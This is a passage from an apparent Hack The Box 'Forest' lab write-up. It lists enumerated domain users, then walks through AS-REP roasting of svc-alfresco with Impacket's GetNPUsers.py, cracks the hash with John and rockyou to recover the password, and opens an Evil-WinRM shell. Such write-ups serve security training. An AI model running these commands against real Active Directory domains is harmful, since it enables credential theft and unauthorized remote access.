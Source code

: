 ```
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

## Cracking the TGT for the service account

When we query the target domain for users with 'Do not require Kerberos preauthentication' set, we find that `svc-alfresco` is not configured with pre-authentication so its TGT will be returned to us encrypted with its password. Similar to kerberoasting, we can brute force the hash offline.

```
root@kali:~/htb/forest# GetNPUsers.py htb.local/svc-alfresco -no-pass -dc-ip 10.10.10.161
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:048f9eeb67ab94be9e4d8fa1da102098$975dae91ab6bf999d089833fd963b22968502904051705806641f10feca002d1304d0c9911ba74e8038ffa90d073b8ea11d1a3c0c9a022baba3414b205e6c89d27fbfd2c28be57e1ca5320aabb44d5b6bb0495bf4824f31ce4ce940406a3ad6795798814af93e6ab7b86dd49ae84dfd0e20c18bbff4e7a1f6828057f40e212e6fec3dbc3fd10b340cefc3d7969fa06caef0e8b057b8ba994b41771536fc57f5dcce3c8e8e05e1953e3dd4e1ca7bd4a1b80bb1e13d20289256d31f2ca596b12c86e3e7389a8a6bd06816fbcf6994e733284cc75dc1e3fff447a5d69b064df4fc5967c96b023a5
```

```
root@kali:~/htb/forest# john -w=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:06 DONE (2019-10-12 19:52) 0.1481g/s 605297p/s 605297c/s 605297C/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We found the credentials for the service account: `svc-alfresco` / `s3rvice`. The service account is also able to connect to the server through WinRM.

```
root@kali:~/htb/forest# evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161

Info: Starting Evil-WinRM shell v1.6

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> type ..\desktop\user.txt
e5e4e47[...]
```
